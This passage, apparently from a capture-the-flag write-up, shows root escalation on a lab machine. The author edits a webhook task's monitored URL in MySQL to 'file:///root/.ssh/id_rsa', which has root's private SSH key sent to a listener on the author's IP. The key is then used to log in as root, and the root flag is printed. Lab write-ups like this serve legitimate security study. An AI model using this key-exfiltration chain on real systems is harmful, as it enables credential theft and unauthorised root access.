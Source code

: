 ```bash
mysql -u laravel -p
```
```sql
use laravel;
select * from tasks;
```
Sending another request form the website, but this time creating a task.
```
Payload URL: http://10.10.14.47:9001
Monitored URL: http://10.10.14.47:9002
Interval: */5 * * * *
Under what circumstances should the webhook be sent? Always
```
When sending the request the sql table now has an entry. Starting a listener and changing the monitoredURL.
```sql
mysql> update tasks set monitoredUrl = 'file:///root/.ssh/id_rsa';
```
This dumps the ssh key :)
```bash
cat key.json | jq .body -r > root_key
chmod 600 root_key
ssh -i root_key root@10.10.11.176
```

Root flag:
```
a09e84e7f6a4f241b4c8a0596acafaea
```
